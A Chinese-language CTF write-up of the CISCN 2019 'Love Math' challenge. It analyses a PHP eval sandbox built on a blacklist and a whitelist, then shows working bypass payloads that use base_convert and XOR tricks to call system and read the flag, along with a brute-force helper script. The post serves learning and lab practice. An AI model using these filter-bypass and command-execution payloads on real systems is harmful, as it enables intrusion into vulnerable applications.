 ```yaml
---
title: buuoj刷题记录7
date: 2020-01-10 22:19:24
tags:
 - buuctf
 - web
 - 命令执行
categories: 
 - 刷题记录
---
```


## CISCN 2019 初赛 Love Math

## 0x00 基础

`eval`可以执行PHP语句

`hex2bin`可以将十六进制的字符转成字符串，结果是字符串类型

`dechex`将十进制转换成十六进制，结果是字符串类型

PHP中数组除了可以使用[ ]  还可以使用{ }

PHP中调用shell命令使用`system()`

<!--more-->

PHP中关于进制转换函数,*dec 都是整型，其他都是字符串类型

https://blog.csdn.net/Auuuuuuuu/article/details/88778852

## 0x02 分析

源码分析

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

会将输入的字符进行过滤，过滤了空格、换行符、制表符、单双引号、反引号、中括号，以及只能出现白名单中的单词。

最后有一个`eval`可以执行PHP语句，想办法构造$\_GET或者$\_POST

可以利用函数转变也可以使用异或

## 0x03 操作

payload1：`?sin=cat /flag&cos=system&c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{cos}($$pi{sin})`

![](../pic/23.png)

异或方法

开始用python写，字符串转十六进制，纠结了很久很久，只有int可以异或。还是选择PHP

```
<?php
$need=['_GET','_POST','_REQUEST'];
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
foreach ($whitelist as $item )
{
    foreach ($need as $x)
    {

        if (in_array($x ^ $item^ $item ,$need))  //在PHP中异或
        {
            echo $x ^ $item;
            echo '|--- '.$x.' --- '.$item;
            echo '|<br/>';
        }
        
    }
}
?>
```

在结果中发现有一个纯数字的还有一个`9**0`,但是没想到怎么利用`9**0`

```
9**0|--- _GET --- fmod|
8"1&|--- _GET --- getrandmax|
85;!5|--- _POST --- getrandmax|
871#4+79|--- _REQUEST --- getrandmax|
7"=0|--- _GET --- hexdec|
75771|--- _POST --- hexdec|
7>5;|--- _GET --- hypot|
```

构造payload：`http://c5da3eac-8e0b-45e3-b441-971c92aa946c.node3.buuoj.cn/?c=$pi=decoct(31737)^hexdec;$$pi{abs}($$pi{cos})`

post 数据：`abs=system&cos=cat /flag`



![](../pic/24.png)

在PHP中无法直接数字与不加引号的字符异或，需要将数字转换成字符类型

![](../pic/25.png)

![](../pic/26.png)

![](../pic/27.png)

PHP异或操作，x位与x+n位异或结果是x位，后面n位直接丢弃。